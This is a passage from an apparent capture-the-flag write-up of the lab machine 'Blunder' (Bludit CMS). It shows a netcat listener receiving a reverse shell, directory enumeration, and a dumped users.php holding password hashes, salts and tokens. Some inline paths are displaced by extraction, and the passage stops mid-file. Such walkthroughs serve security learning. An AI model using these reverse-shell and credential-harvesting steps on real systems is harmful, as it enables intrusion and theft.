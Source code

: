 
### Shell

I can run that and get a shell:

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.191.
    Ncat: Connection from 10.10.10.191:47374.
    bash: cannot set terminal process group (1108): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
    

## Priv: www-data –> huge

### Enumeration

There’s a couple of users, and I think some intentional false paths in the home directory. Eventually I made it back into the directory to look at the web configs. Interesting, there were two versions of Bludit there:`shaun``/var/www`

    www-data@blunder:/var/www$ ls  
    bludit-3.10.0a  bludit-3.9.2  html
    

After a bunch of looking around in both directories, I found the file that holds the database config, in . v3.9.2 had two users:`/bl-content/databases/users.php`

    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Admin",
            "firstName": "Administrator",
            "lastName": "",
            "role": "admin",
            "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
            "salt": "5dde2887e7aca",
            "email": "",
            "registered": "2019-11-27 07:40:55",
            "tokenRemember": "",
            "tokenAuth": "b380cb62057e9da47afce66b4615107d",
            "tokenAuthTTL": "2009-03-15 14:00",
            "twitter": "",
            "facebook": "",
            "instagram": "",
            "codepen": "",
            "linkedin": "",
            "github": "",
            "gitlab": ""
        },
        "fergus": {
            "firstName": "",
            "lastName": "",
            "nickname": "",
            "description": "",
            "role": "author",
            "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
            "salt": "jqxpjfnv",
            "email": "",
            "registered": "2019-11-27 13:26:44",
            "tokenRemember": "657a282fad58fab9e0e920223c45c915",
            "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
            "tokenAuthTTL": "2009-03-15 14:00",